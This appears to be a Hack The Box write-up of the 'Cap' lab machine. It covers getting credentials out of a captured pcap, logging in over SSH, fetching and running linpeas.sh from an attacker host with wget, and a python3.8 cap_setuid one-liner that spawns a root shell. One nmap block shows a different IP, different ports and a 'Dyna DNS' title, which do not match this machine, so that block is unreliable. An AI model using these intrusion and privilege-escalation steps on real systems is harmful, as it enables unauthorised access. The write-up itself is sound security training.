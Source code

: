 ![](https://visitor-badge.glitch.me/badge?page_id=prateek22.Hack-the-Box-Machines.gh-pages.easy.cap.index.md)

* Table of contents
{:toc}

# Machine Info
**IP**: 10.10.10.245

**OS**: Linux

**Difficulty**: Easy

# Passive Enumeration I

## **nmap**
### **Open Services**
```
$ nmap -T4 -p- 10.10.10.245
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 00:46 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
### **Advanced scan**
```
$ sudo nmap -T4 -p22,53,80 -A -O 10.129.126.40                                                                                                                     1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-13 23:49 EDT
Nmap scan report for 10.129.126.40
Host is up (0.071s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   53.50 ms 10.10.16.1
2   25.96 ms 10.129.126.40
```
## **Enumerating HTTP**
The website is a dashboard with 3 options: IP Config, Network Status, and Security Snapshot.

![Dashboard](./website.png "Dashboard")

Of the three, the one we will focus on is the snapshot. This provides us with a 5 second snapshot of the network packets that were captured by the machine. However, the snapshot does not contain any data and all counts are 0.

![Snapshot1](./snapshot_1.png "Snapshot1")

As we can see, the option redirects us to the URL, http://10.10.10.245/data/1, and fuzzing the URL we find that for "/data/0" we get some values. Downloading the data and opening it with Wireshark, we find FTP packets with the credentials for user "nathan".

![user-password](./pcap_password.png "User password")

Now, we can connect to the target machine using the obtained credentials.

# Exploitation
## **Connecting to SSH**
```
$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 15 03:10:52 UTC 2021

  System load:           0.0
  Usage of /:            34.8% of 8.73GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:a161

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation




The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ whoami
nathan
```
# Enumeration II
The user "nathan" does not have privilege to run any commands as sudo. So, I copied over the linPEAS script to check for privilege escalation vectors.

```
nathan@cap:~$ wget 10.10.16.173/linpeas.sh
--2021-06-15 03:16:47--  http://10.10.16.173/linpeas.sh
Connecting to 10.10.16.173:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 342868 (335K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                 100%[=====================================================================================>] 334.83K   938KB/s    in 0.4s    

2021-06-15 03:16:47 (938 KB/s) - ‘linpeas.sh’ saved [342868/342868]

nathan@cap:~$ ls
linpeas.sh  user.txt
nathan@cap:~$ chmod +x linpeas.sh 
nathan@cap:~$ ./linpeas.sh 
...
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

...
```
We can also manually search for files with capabilities as below.
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The hacktricks entry for capabilities mentions that capabilities allow processes to run with elevated privileges but not the full set of privilege. So, any program that has the ability to call setUID() can be used to elevate our privilege.

# Privilege Escalation
Enumeration identified python3.8 to have the capability to set the UID and using it to spawn a shell achieves our goal.
```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

# Post-Exploitation
## **User Flag**
```
nathan@cap:~$ cat user.txt 
fc****************************64
```
## **Root Flag**
```
root@cap:/root# cat root.txt 
f2****************************2a
```
